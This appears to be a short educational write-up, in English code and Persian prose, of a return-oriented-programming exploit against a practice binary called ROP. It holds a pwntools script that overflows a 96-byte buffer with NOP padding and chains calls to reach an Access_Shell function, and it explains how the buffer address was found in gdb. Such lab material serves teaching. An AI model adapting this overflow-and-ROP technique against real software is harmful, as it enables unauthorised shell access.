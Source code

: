 ```
from pwn import *

exe = context.binary = ELF("./ROP")
r = ROP(exe)
r.call(exe.sym.correct_answer, [0xdabbadaa])
r.call(exe.sym.wrong_answer, [0xfacebaad, 0xfacefeed, 0xfacedead])
r.call(exe.sym.Access_Shell, [])
buffer_start = 0xffffd49c

chain = r.chain(buffer_start + 108 + 4)
print(chain)
amo = (108 + 4) * b"\x90" + chain
f = open("input.txt", "wb")
f.write(amo)
f.close()
```

طریقه به دست اوردن آدرس بافر به این صورت بوده است که با اجرای gdb و استفاده از دستور s به خط 
```cpp
    char input3[96];
```
میرسیم و سپس میزنیم
```
p/x &input3
```
و آدرس ابتدای بافر چاپ خواهد شد.
این اسکریپت ابتدا منطق مد نظر را داخل `r` وارد میکند و سپس با استفاده از ادرس
 به دست آمده از مرحله قبل ان را در قسمت `ebp` بافر تنطیم میکند
 و سپس با ذخیره فایل، کار را تمام میکند.
سپس میتوانیم با اجرای 
```
./ROP test
```
به `shell` برسیم.


# Run with:
```
python3 exp_rop.py
./ROP
```